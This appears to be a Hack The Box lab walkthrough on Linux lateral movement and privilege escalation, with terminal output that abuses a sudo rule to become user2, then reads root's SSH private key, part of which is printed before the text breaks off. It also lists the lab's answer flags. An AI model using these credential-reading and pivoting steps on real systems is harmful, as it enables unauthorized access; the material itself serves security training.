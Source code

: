 SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
```
> HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
```

```
┌──(kali㉿kali)-[~]
└─$ ssh user1@94.237.59.185 -p
(user1@94.237.59.185) Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.10.0-18-amd64 x86_64)

[...]

user1@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~$ id
uid=1000(user1) gid=1000(user1) groups=1000(user1)
user1@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~$ sudo -l
Matching Defaults entries for user1 on ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:
    (user2 : user2) NOPASSWD: /bin/bash
user1@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~$ sudo -u user2 /bin/bash
user2@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:/home/user1$ id
uid=1001(user2) gid=1001(user2) groups=1001(user2)
user2@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:/home/user1$ cat ../user2/flag.txt 
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
user2@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:/home/user1$ 
```

Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
```
> HTB{pr1v1l363_35c4l4710n_2_r007}
```

The user has access rights into the home directory from the root user. As well, we can read out the ssh key of the user:
```
user2@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~$ ls -al /root/
total 32
drwxr-x--- 1 root user2 4096 Feb 12  2021 .
drwxr-xr-x 1 root root  4096 Oct 17 16:11 ..
-rwxr-x--- 1 root user2    5 Aug 19  2020 .bash_history
-rwxr-x--- 1 root user2 3106 Dec  5  2019 .bashrc
-rwxr-x--- 1 root user2  161 Dec  5  2019 .profile
drwxr-x--- 1 root user2 4096 Feb 12  2021 .ssh
-rwxr-x--- 1 root user2 1309 Aug 19  2020 .viminfo
-rw------- 1 root root    33 Feb 12  2021 flag.txt
user2@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~$ ls -al /root/.ssh/
total 20
drwxr-x--- 1 root user2 4096 Feb 12  2021 .
drwxr-x--- 1 root user2 4096 Feb 12  2021 ..
-rw------- 1 root root   571 Feb 12  2021 authorized_keys
-rw-r--r-- 1 root root  2602 Feb 12  2021 id_rsa
-rw-r--r-- 1 root root   571 Feb 12  2021 id_rsa.pub
user2@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~$ cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3nX57B1Z2nSHY+aaj4lKt9lyeLVNiFh7X0vQisxoPv9BjNppQxV
PtQ8csvHq/GatgSo8oVyskZIRbWb7QvCQI7JsT+Pr4ieQayNIoDm6+i9F1hXyMc0VsAqMk
05z9YKStLma0iN6l81Mr0dAI63x0mtwRKeHvJR+EiMtUTlAX9++kQJmD9F3lDSnLF4/dEy
G4WQSAH7F8Jz3OrRKLprBiDf27LSPgOJ6j8OLn4bsiacaWFBl3+CqkXeGkecEHg5dIL4K+
```